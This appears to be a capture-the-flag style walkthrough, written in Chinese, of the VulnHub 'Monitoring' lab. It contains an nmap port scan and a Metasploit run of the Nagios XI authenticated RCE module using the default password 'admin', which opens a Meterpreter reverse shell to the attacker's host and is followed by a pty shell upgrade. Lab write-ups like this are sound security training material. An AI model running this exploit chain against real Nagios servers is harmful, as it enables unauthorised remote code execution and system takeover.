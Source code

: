 # Monitoring

> https://download.vulnhub.com/monitoring/Monitoring.ova

靶场IP：`192.168.2.133`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.133                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-05 07:41 EDT
Nmap scan report for 192.168.2.133
Host is up (0.00062s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
MAC Address: 00:0C:29:43:DC:A3 (VMware)
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.68 seconds
                                                             
```

浏览器访问80端口

![image-20220905194312987](../../.gitbook/assets/image-20220905194312987.png)

跟随链接访问管理后台

![image-20220905195246754](../../.gitbook/assets/image-20220905195246754.png)

我们搜索 Nagios XI 的漏洞利用，我们发现了一个 authenticated_rce 漏洞利用。让我们加载 msfconsole 并加载漏洞 `nagios_xi_authenticated_rce`。

```
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set rhosts 192.168.2.133
rhosts => 192.168.2.133
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set lhost 192.168.2.129
lhost => 192.168.2.129
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set password admin
password => admin
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.2.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3020772 bytes) to 192.168.2.133
[*] Meterpreter session 1 opened (192.168.2.129:4444 -> 192.168.2.133:40318) at 2022-09-05 07:54:37 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

```

```
shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
```

![image-20220905195554692](../../.gitbook/assets/image-20220905195554692.png)